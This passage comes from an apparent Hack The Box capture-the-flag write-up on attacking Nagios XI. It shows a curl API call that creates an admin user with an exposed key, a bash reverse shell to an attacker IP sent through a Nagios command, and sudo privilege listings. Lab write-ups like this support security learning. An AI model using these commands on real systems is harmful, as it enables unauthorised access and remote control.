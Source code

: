 ![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240407154912.png)

![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240407160224.png)

![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240407155541.png)

- Finally, we created the user `xpnt` with **administrator privileges**.

```bash
curl -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=xpnt&password=xpnt&name=xpnt&email=xpnt@monitored.htb&auth_level=admin" -k
```

![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240407203218.png)

- Searching for a way to execute commands within Nagios XI, we found the following [blog](https://nagiosenterprises.my.site.com/support/s/article/Using-the-Core-Config-Manager-for-Service-Management-fc9aa4e4). In this blog, it is explained that in the creation of **Services**, we can test a command previously created in the **Commands** section.

![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240507100213.png)

![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240507110304.png)

```bash
bash -c 'bash -i>&/dev/tcp/10.10.14.162/443 0>&1'
```

>Comments:
> It is worth noting that `double quotes` in the paylaod are not correctly interpreted
{: .prompt-info }
![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240407210414.png)

- With that, we obtained a `reverse shell` and were able to read _user.txt_.

![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240407210550.png)


- When running `sudo -l`, we noticed that we can execute several commands with `sudo` without providing a password.

```bash
nagios@monitored:/home/svc$ sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
```